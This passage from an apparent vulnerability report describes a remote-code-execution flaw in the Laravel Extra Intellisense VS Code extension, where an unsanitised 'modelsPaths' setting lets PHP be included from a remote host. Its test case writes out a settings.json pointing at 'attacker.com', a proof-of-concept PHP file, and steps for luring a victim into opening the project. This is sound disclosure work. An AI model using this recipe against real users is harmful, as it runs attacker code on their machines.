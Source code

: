                     let models = JSON.parse(result);
                    self.models = models;
                }).catch(function (e) {
                    console.error(e);
                });
            } catch (exception) {
                console.error(exception);
            }
        }
        ```
        - The code retrieves the `modelsPaths` configuration using `vscode.workspace.getConfiguration("LaravelExtraIntellisense").get<Array<string>>('modelsPaths', ['app', 'app/Models'])`.
        - This configuration value, which is user-controlled through `.vscode/settings.json`, is directly embedded into a PHP code string.
        - The `include_once base_path(\"$modelPath/$sourceFile\")` line is vulnerable because `$modelPath` is directly derived from the user-provided `modelsPaths` configuration without sanitization, allowing for injection of arbitrary paths, including URLs.
        - When `runLaravel` executes this PHP code, it attempts to include and execute PHP files from the attacker-specified locations.

    * **Security Test Case:**
        1. **Attacker Setup:**
            - Set up a web server under attacker's control (e.g., `attacker.com`).
            - Create a malicious PHP file named `malicious.php` on the attacker's web server with the following content:
              ```php
              <?php
              file_put_contents(__DIR__ . '/rce_vulnerability_proof.txt', 'Successfully achieved RCE!');
              ?>
              ```
        2. **Malicious Project Creation:**
            - Create a new directory named `malicious-laravel-project`.
            - Inside `malicious-laravel-project`, create a subdirectory named `.vscode`.
            - Inside `.vscode`, create a file named `settings.json` with the following content:
              ```json
              {
                  "LaravelExtraIntellisense.modelsPaths": ["//attacker.com"]
              }
              ```
            - Zip the `malicious-laravel-project` directory into `malicious-laravel-project.zip`.
        3. **Victim Execution:**
            - Send the `malicious-laravel-project.zip` file to the victim.
            - Instruct the victim to:
                - Extract `malicious-laravel-project.zip` to a directory on their local machine.
                - Open the extracted `malicious-laravel-project` directory in VS Code.
                - Ensure the "Laravel Extra Intellisense" extension is installed and activated.
        4. **Verification:**
            - After the victim opens the project and the extension initializes, check if a file named `rce_vulnerability_proof.txt` has been created in the root directory of the `malicious-laravel-project` on the victim's machine.
            - If `rce_vulnerability_proof.txt` exists and contains the text "Successfully achieved RCE!", the vulnerability is confirmed. This indicates that the malicious PHP code from the attacker's server was successfully executed by the extension, leading to Remote Code Execution.
